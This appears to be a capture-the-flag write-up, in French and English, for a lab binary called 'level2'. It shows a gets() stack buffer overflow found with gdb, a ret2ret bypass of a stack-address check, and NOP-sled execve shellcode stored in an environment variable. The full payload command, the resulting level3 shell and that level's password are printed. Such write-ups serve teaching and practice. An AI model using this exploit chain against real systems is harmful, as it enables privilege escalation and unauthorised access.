 scp -P 4242 level2@192.168.56.103:/home/user/level2/level2 /home/zouz/Desktop/level2

step 1 :
regarder le code et voir qu'il y a un appel a gets(), trouver la taille du buffer

```
(gdb) r <<< $(python -c "print 'A' * 76 + 'BBBBCCCC'")
Starting program: /home/user/level2/level2 <<< $(python -c "print 'A' * 76 + 'BBBBCCCC'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAAAAAABBBBCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()

(gdb) info reg ebp eip
ebp            0x42424242	0x42424242
eip            0x43434343	0x43434343
```

buffer size => 80

step 2 :
comprendre que cet appel est protege contre une injection sur la stack, donc pas de nop-sleds possible.

```
0x080484fb      and eax, 0xb0000000
0x08048500      cmp eax, 0xb0000000
```

exemple: 
targeting an address after the get => ret : 0x0804853e 
```
Breakpoint 1, 0x0804853e in p ()
(gdb) info frame
Stack level 0, frame at 0xbffff720:
 eip = 0x804853e in p; saved eip 0x804854a
 called by frame at 0xbffff730
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff720
 Saved registers:
  eip at 0xbffff71c

```

4 bytes after the original EIP address to target the NOP

$ python -c 'print hex(0xbffff71c + 4)'
0xbffff71c + 4 = BFFFF720

python -c 'print "A" * 80 + "\x20\xf7\xff\xbf"' | ./level2
(0xbffff720)

step 3:
En mettant, notre shellcode dans une variable d’environnement on s’assure que même
si le buffer est modifié le shellcode lui, restera intacte. 

take a shellcode:
http://shell-storm.org/shellcode/files/shellcode-827.php

$ export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')

the NOP are added to optimize the chance that the ret address points to it so the SHELLCODE will be executed.

get SHELLCODE var address with exploit 
=> 0xbffff8a5

(python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\xa5\xf8\xff\xbf' " & cat) | ./level2

```
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

